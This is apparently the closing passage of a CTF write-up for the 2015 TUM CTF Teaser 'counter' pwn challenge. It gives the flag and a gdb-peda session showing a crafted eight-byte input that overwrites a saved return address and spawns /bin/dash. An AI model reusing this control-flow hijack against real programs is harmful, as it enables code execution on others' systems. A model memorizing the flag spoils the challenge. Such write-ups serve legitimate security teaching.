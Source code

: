 The flag is `hxp{0verflow1ng_ch4c4cters_w1n}`.

To see that `rip` changed:

```bash
$ p -c 'print "\x98"*7+"\x99"' > in
$ xxd in 
0000000: 9898 9898 9898 9899 0a                   .........
$ gdb ./counter 
Reading symbols from ./counter...(no debugging symbols found)...done.
gdb-peda$ b *0x4007b0
Breakpoint 1 at 0x4007b0
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/tum/c0unter/counter < in
[...]
   0x4007ae:    jne    0x4007a0
=> 0x4007b0:    movzx  ecx,BYTE PTR [rsp+0x1]
   0x4007b5:    movzx  edx,BYTE PTR [rsp]
[...]
Breakpoint 1, 0x00000000004007b0 in ?? ()
gdb-peda$ x/gx $rsp+0x98
0x7fffffffe418: 0x00000000004006e0
gdb-peda$ c
Continuing.

process 3372 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x4007b0
```

## Other write-ups and resources

* <https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html>
